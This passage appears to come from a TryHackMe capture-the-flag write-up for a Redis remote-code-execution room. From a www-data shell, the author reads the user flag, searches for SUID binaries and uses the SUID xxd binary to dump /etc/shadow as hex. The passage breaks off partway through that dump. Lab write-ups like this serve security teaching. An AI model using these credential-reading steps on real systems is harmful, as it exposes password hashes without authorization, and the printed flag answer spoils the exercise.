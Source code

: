 ```
drwxr-xr-x 5 vianka vianka 4096 Sep  2  2020 vianka
www-data@ubuntu:/home$ cd vianka
cd vianka
www-data@ubuntu:/home/vianka$ ls -l
ls -l
total 8
drwxrwxr-x 7 vianka vianka 4096 Sep  2  2020 redis-stable
-rw-rw-r-- 1 vianka vianka   35 Sep  2  2020 user.txt
www-data@ubuntu:/home/vianka$ cat user.txt
cat user.txt
thm{red1s_rce_w1thout_credent1als}
```
**Answer** 
#### thm{red1s_rce_w1thout_credent1als}


**Question**
#### What is the local user account password?
Let's check the access rights for **/etc/passwd** and **/etc/shadow**
```
-rw-r----- 1 root shadow   864 Sep  2  2020 shadow
-rw-r--r-- 1 root root    1416 Sep  2  2020 passwd
```
**passwd**
```
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```
About **shadow**, we cannot read it. We need to find an alternative to read it with our current access rights.

- First: Check SID of available commands
```
www-data@ubuntu:/etc$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
```
Let's use **xxd**. This command can create a dump so we can read the content of shadow.
```
www-data@ubuntu:/etc$ xxd shadow
xxd shadow
00000000: 726f 6f74 3a21 3a31 3835 3037 3a30 3a39  root:!:18507:0:9
00000010: 3939 3939 3a37 3a3a 3a0a 6461 656d 6f6e  9999:7:::.daemon
00000020: 3a2a 3a31 3739 3533 3a30 3a39 3939 3939  :*:17953:0:99999
00000030: 3a37 3a3a 3a0a 6269 6e3a 2a3a 3137 3935  :7:::.bin:*:1795
00000040: 333a 303a 3939 3939 393a 373a 3a3a 0a73  3:0:99999:7:::.s
00000050: 7973 3a2a 3a31 3739 3533 3a30 3a39 3939  ys:*:17953:0:999
00000060: 3939 3a37 3a3a 3a0a 7379 6e63 3a2a 3a31  99:7:::.sync:*:1
00000070: 3739 3533 3a30 3a39 3939 3939 3a37 3a3a  7953:0:99999:7::
00000080: 3a0a 6761 6d65 733a 2a3a 3137 3935 333a  :.games:*:17953:
00000090: 303a 3939 3939 393a 373a 3a3a 0a6d 616e  0:99999:7:::.man
000000a0: 3a2a 3a31 3739 3533 3a30 3a39 3939 3939  :*:17953:0:99999
000000b0: 3a37 3a3a 3a0a 6c70 3a2a 3a31 3739 3533  :7:::.lp:*:17953
000000c0: 3a30 3a39 3939 3939 3a37 3a3a 3a0a 6d61  :0:99999:7:::.ma
```